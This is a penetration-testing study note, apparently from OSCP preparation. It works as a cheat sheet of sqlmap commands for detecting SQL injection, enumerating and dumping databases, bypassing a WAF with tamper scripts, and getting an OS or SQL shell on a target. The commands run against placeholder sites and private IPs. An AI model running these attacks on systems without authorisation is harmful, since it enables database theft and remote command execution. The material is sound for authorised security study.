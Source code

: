 # 3. sqlmap \(not for OSCP\)

### sql is not allowed in OSCP, this is just an informational page to understand how sqlmap works

I have written it such that, if required you could manually work of how an sqlmap would work for Blind SQL injection attacks.

ref : [https://resources.infosecinstitute.com/important-sqlmap-commands/\#gref](https://resources.infosecinstitute.com/important-sqlmap-commands/#gref)

We could do the following using SQLmap

* HTTP REQUESTS scanning
  * POST requests 
    * `sqlmap -u http://site-to-test.com/admin/index.php –data=”user=admin&password=admin” -p user`
  * GET requests
    * `sqlmap -u http://site-to-test.com/test.php?id=1 -p id`
* POST login page scan
  *  `sqlmap -u http://192.168.202.163/admin/index.php?id=1 –cookie=”cookie value”`
  * Sly,
    * cookie \(PHP Session\)
    *  user-agent and random-agent
    * referer
  * notice that here we have not given "`-p id`".
* CRAWL
  *  `sqlmap -u http://192.168.202.160/ –crawl=1`
* Risks and Levels
  * Risk allows the type of payloads used by the tool. By default, it uses value 1 and can be configured up to level 3. Level 3, being the maximum, includes some heavy SQL queries.
  * The level defines the number of checks/payload to be performed. The value ranges from 1 to 5. 5, being the maximum, includes large number of payloads in the scan.
  * The risk and level are recommended to be increased if SQLMap is not able to detect the injection in default settings.
* Database Enumeration
  * `–dbs`
    * To enumerate database.
    * `sqlmap -u http://site-to-test.com/test.php?id=1 --dbs`
  * `--tables` 
    * Say now we have the database name say "wp-users".
    * and we need to enumerate the number of users.
    * `sqlmap -u http://site-to-test.com/test.php?id=1 -D wp-users --tables`
  * `--columns`
    * say now we have a table name "users"
    * and we need to list all the columns present in this table.
    * `sqlmap -u http://site-to-test.com/test.php?id=1 -D wp-users -T users --columns`
  * `--dump`
    * To print all the data in table name "users".
    * `sqlmap -u http://site-to-test.com/test.php?id=1 -D wp-users -T users --dump`
  * others
    * --current-user, --current-db
    * --privileges, --roles, --is-dba, --hostname
* Bypassing a web application firewall \(WAF\)
  * --identify-waf
  * We could now use the tamper script to attack WAF
    * --tamper=apostrophemask -v 3
* Running system commands
  * `sqlmap -u http://site-to-test.com/test.php?id=1 --os-cmd id`
  * `sqlmap -u http://site-to-test.com/test.php?id=1 --os-shell`
* Running SQL interactive shell
  * `sqlmap -u http://site-to-test.com/test.php?id=1 --sql-shell`

 







